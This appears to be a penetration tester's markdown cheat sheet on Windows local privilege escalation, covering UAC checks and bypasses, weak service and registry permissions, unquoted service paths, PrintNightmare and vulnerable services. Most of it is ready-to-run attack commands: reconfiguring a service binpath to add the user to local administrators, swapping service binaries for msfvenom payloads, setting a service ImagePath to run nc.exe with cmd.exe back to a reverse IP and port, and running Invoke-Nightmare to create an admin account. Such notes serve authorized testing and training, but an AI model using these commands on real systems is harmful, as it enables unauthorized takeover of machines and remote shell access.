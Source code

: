 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)

## [User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
consent prompted elevated privileges. 
[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
Forces an attacker to become noisy. 
RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
New accounts operate at medium level.
Confirm UAC is enabled:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Check UAC level:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

```powershell
[environment]::OSVersion.Version
```
0x5 is the highest level.
UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)

#### [UAC bypasses.](https://github.com/hfiref0x/UACME)
Find a UAC that works in targets window version under keys. 
Google may have tutorial for exploit?
Run a DLL
```shell-session
rundll32 shell32.dll,Control_RunDLL <path to dll>
```

## Weak Permissions 
[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
Checks for weak ACLs on binaries. 
```shell-session
.\SharpUp.exe audit
```
Service Binaries:
Verify vuln with [icals](https://ss64.com/nt/icacls.html)
```shell-session
icals <path to exe>
```
Replace the binary with a malicious one through msfvenom
```shell-session
cmd /c copy /Y <exe> "<path to target>"
```
```shell-session
sc start <service name>
```
Service Permissions 
Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```shell-session
accesschk.exe /accepteula -quvcw <service>` #(.exe not needed)
```

```shell
-q = omit banner
-u = surpress erros
-v = verobse
-c = specify name of windows service
-w = objects with write only. 
```


Change the service binary:
```shell-session
sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"
```
Stop the service 
```shell-session
sc stop <service>
```
Start the service 
```shell-session
sc start <service>
```
confirm local access
```shell-session
net local group administrators
```
### Cleanup
Revert the binary path 
```shell-session
sc config <service> binpath="<path>"
```
Start the service 
```shell-session 
sc start <service>
```

### Unquoted Service Paths
Rare to exploit. If service path isn't in ""  windows will search for it in root path.  May be able to hijack the service. 

Search for unquoted service path:
```shell-session
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Permissive Registry ACLs. 

Search for weak ACLs
```shell-session 
accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services
```
Change the ImagePath value in powershell
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"
```
Modify Registry Autorun Binaries.
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
## Kernel Exploits
If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)

### [CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
check for spoiler service 
```powershell
ls \\localhost\pipe\spoolss
```
Add local admin with printnightmare 
```powershell
Set-ExecutionPolicy Bypass -scope Process
```
Import powershell script
```powershell
Import-Module ./CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"
```
Confirm new user 
```shell-session
net user hacker
```

### Vulnerable Services
Permitted to install software or vulnerable third-party applications. 
Check installed programs
```shell-session
wmic product get name
```
Check local ports
```shell-session
netstat -ano
```
Check the process ID 
```shell-session
get-process -Id <PID>
```
Enumerate Running Service 
```shell-session
get-service | ? {$_.DisplayName -like '<name>'}
```
